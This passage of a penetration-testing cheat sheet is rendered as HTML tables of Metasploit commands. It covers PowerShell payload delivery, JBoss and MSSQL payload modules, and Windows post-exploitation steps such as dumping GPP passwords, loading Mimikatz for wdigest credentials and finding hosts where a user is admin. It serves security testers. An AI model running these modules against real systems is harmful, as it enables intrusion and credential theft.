 <td>Metasploit Oracle Login Module</td>
</tr>
</tbody>
</table>
<h3>Metasploit Powershell Modules</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>use exploit/multi/script/web_delivery</td>
<td>Metasploit powershell payload delivery module</td>
</tr>
<tr>
<td>post/windows/manage/powershell/exec_powershell</td>
<td>Metasploit upload and run powershell script through a session</td>
</tr>
<tr>
<td>use exploit/multi/http/jboss_maindeployer</td>
<td>Metasploit JBOSS deploy</td>
</tr>
<tr>
<td>use exploit/windows/mssql/mssql_payload</td>
<td>Metasploit MSSQL payload</td>
</tr>
</tbody>
</table>
<h3>Post Exploit Windows Metasploit Modules</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>run post/windows/gather/win_privs</td>
<td>Metasploit show privileges of current user</td>
</tr>
<tr>
<td>use post/windows/gather/credentials/gpp</td>
<td>Metasploit grab GPP saved passwords</td>
</tr>
<tr>
<td>load mimikatz -&gt; wdigest</td>
<td>Metasplit load Mimikatz</td>
</tr>
<tr>
<td>run post/windows/gather/local_admin_search_enum</td>
<td>Idenitfy other machines that the supplied domain user has administrative access to</td>
</tr>
</tbody>
</table>
<h2>Networking</h2>
<h3>TTL Fingerprinting</h3>
<table>
<thead>
<tr>
<th>Operating System</th>